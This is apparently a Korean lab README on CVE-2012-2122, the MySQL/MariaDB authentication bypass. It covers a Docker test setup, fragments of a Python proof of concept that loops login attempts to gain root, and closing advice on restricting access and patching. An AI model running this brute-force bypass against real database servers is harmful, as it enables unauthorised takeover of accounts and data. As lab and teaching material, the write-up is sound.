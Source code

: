 # CVE-2012-2122

> [배소정 (@baethwjd2)](https://github.com/baethwjd2)

<br/>

### 요약

- CVE-2012-2122는 MySQL과 MariaDB의 특정 버전에서 발견된 **인증 우회** 취약점
- 특정 버전의 MySQL은 비밀번호의 해시값을 memcmp 함수로 캐스팅하여 인증
- memcmp 함수는 -128 ~ 127 사이의 값을 반환하므로, 잘못된 비밀번호를 입력하더라도 1/256의 확률로 로그인에 성공
- 따라서 임의의 비밀번호로 로그인을 반복함으로써, 악의적인 공격자가 DB의 root 계정을 쉽게 획득 가능

<br/>

### 환경 구성 및 실행

- `docker compose up -d` 커맨드를 입력해 테스트 환경을 실행 (취약점이 보고된 MySQL 5.5.22의 컨테이너 이미지 사용)
- `pip install pymysql` 커맨드로 poc.py 실행을 위한 pymysql 패키지 설치
- `python3 poc.py` 를 실행해 DB의 **root 계정**을 탈취할 수 있음. 유저 정보를 출력하여 root 계정으로 로그인이 됐는지 확인

<br/>

### poc.py

1/256의 확률로 로그인에 성공할 수 있으므로, 충분한 횟수만큼 로그인을 반복 시행한다.

```
for i in range(1, 10001):
    password = str(i)
    conn = pymysql.connect(user=user, password=password, host=host, port=port, charset='utf8')
```

유저 정보를 확인하여 root 계정 로그인에 성공했음을 확인한다.

```
cursor.execute("SELECT user()")
```

<br/>

### 결과

![](result.png)

<br/>

### 정리

해당 취약점을 통해 공격자는 root를 포함한 특정 사용자 계정에 로그인하여, 인가되지 않은 권한을 획득할 수 있다.

이러한 상황을 방지하기 위해, 가장 먼저 관리자는 DB 서버의 네트워크가 노출되지 않도록 노력해야 한다. 즉, 인가되지 않은 액세스를 차단할 수 있도록 미리 서버를 설정해야 한다. 그리고 주기적으로 서비스 취약점을 모니터링하고 패치해야 한다.
